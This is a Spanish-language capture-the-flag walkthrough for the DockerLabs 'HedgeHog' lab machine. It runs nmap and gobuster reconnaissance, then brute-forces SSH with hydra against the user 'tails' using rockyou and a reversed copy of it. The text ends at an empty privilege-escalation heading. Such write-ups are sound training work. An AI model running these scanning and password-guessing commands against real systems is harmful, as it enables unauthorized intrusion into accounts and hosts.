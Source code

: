 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/ic9VwYZJ#Hr1BjW2axoSRmUYbxhldmTNiYtBV9TQU83JDJPpoYww
Nombre: HedgeHog
Dificultad: muy fácil
Creador: AnkbNikas

Tools:
[[Docker]]
[[Ping]]
[[NMAP]]
[[Gobuster]]



# Despliegue:
```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh hedgehog.tar
```

![[Dockerlabs - HedgeHog - Reconocimiento.png]]
# Reconocimiento

## Ping:

```sh fold:"Deploy injection machine"
ping -c1 172.17.0.2
```

![[Dockerlabs - JedgeHog - Ping.png]]

TRL: 64 --> Linux

## lanzamos un nmap:

```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - HedgeHog - nmap result.png]]

Puertos abiertos
22 --> SSH
80 --> HHP

entramos en el navegador con el puerto 80 y vemos si encontramos alguna web interesante:
![[Dockerlabs -HedgeHog - WebSite.png]]

revisamos el código fuente por si encontramos algo:
![[Dockerlabs - hedgeHog - Web codigo fuente.png]]
Pero no damos con nada interesante

Intentamos sacar rutas con gobuster
```sh fold:"Reconocimiento con gobuster"
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 --add-slash
```

![[Dockerlabs - HedgeHog - Gobuster result.png]]
# Explotación / intrusión
lanzamos un hydra con el usuario que vimos en la web: tails
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog -Rockyou normal.png]]
pero no encontramos nada, al ver el nombre del usuario tails: se nos ocurre invertir el rockyou
comandos para invertir el rockyou:

```sh fold:"Invertir el rockyou"
# invertimos
tac rockyou.txt >> rockyouinvertido.txt
# eliminamos los espacios
sed -i 's/ //g' rockyouinvertido.txt 
```

Volvemos a lanzar hydra con el rockyou invertido:
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyouinvertido.txt ssh://172.17.0.2
```



# Escalada de privilegios